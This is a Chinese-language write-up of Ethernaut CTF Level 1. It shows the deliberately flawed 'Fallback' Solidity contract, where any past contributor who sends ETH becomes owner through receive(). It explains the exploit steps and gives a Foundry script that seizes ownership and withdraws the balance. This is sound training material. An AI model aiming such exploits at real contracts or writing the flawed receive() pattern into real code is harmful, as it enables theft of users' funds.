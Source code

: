 # Ethernaut CTF Writeup

## Level 1 Title

> 題目: https://ethernaut.openzeppelin.com/level/0x716747Fbc1FcE4c36F2B369F87aDB5D4580e807f

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

過關條件: 

- 獲得合約的所有權

解法：

- 要取得這份 Solidity 智能合約的所有權，需要滿足以下條件
    - 利用 `contribute()` 函數：當使用 `contribute()` 函數進行捐款時，如果貢獻超過當前擁有者的貢獻，將成為新的擁有者
    - 利用 `receive()` 函數：如果您已經在 `contributions` 中有貢獻（大於0），可以通過直接向合約地址發送超過 0 的 ETH 來觸發 `receive()` 函數，這樣合約的擁有者將被設置為 `msg.sender` 的地址
- 步驟
    - `contract.contribute({value:1})` 確保已經有貢獻: 首先，需要使用 `contribute()` 函數進行少量捐款（小於 `0.001 ether`），以便在 `contributions` 中創建地址條目，這樣將有機會在後續步驟中獲得所有權
    - `contract.sendTransaction({value:1})` 向合約發送 ETH，以觸發 receive() 函數
    - `msg.sender` 將成為新的擁有者
    - `contract.withdraw()` 提取所有的錢

- Foundry - level1.s.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Fallback} from "../src/level1/Fallback.sol";

contract PwnFallback is Script {
    Fallback target = Fallback(payable(0x80376c49C00b7e6E1f123dabFF04347195eEFa2a));

    function run() public {
        vm.startBroadcast();
        console.log("Current Owner is: ", target.owner());
        
        // get the owner
        target.contribute{value: 1 wei}();
        address(target).call{value: 1 wei}("");
        target.withdraw();
        
        console.log("Current Owner is: ", target.owner());
        vm.stopBroadcast();
    }
}
```